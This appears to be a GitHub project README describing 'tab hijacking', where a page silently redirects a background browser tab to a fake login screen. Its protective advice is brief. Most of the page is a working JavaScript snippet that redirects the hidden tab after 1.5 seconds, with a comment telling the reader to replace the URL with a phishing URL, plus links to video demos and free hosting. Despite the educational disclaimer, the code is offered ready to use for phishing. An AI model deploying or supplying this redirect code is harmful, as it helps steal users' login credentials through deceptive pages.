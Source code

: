 ## 👨🏻‍💻️ Tab-H1j4ck

This educational project shows how **Tab H1j@cking** works — a trick where attackers hijack the **original tab** after a user opens a **new one**. It silently redirects the original tab to a different page (e.g., a fake login screen or misleading content) while the user is distracted.

---

### 🛡️ How to Protect Yourself

- ✅ Don’t trust tabs that open automatically  
- ✅ Always check the URL before logging in  

---

**🌐 Free Hosting & Subdomain**

> https://youtu.be/TV8CI3w6PlE

---

### 🔁 Example JavaScript Code

You can test it in y0ur 0wn pr0ject:

```js
let redirectTimer = null;

document.addEventListener('visibilitychange', function () {
  if (document.hidden) {
    console.log("⏳ Tab.");
    redirectTimer = setTimeout(() => {
      window.location.href = 'https://youtu.be/vE9O36mxQ2A'; // Replace with phishing URL
    }, 1500); // Redirects after 1.5s
  } else {
    console.log("🛑 Tab is active.");
    clearTimeout(redirectTimer);
  }
});
```

---

**🎥 Educational Demo**

> https://youtube.com/shorts/fQO1w-J7Wbo

---

> **⚠️ Warning:** This project is for **educational purposes only**. Never use it for malicious activities. Always obtain **explicit consent** before conducting any security tests.
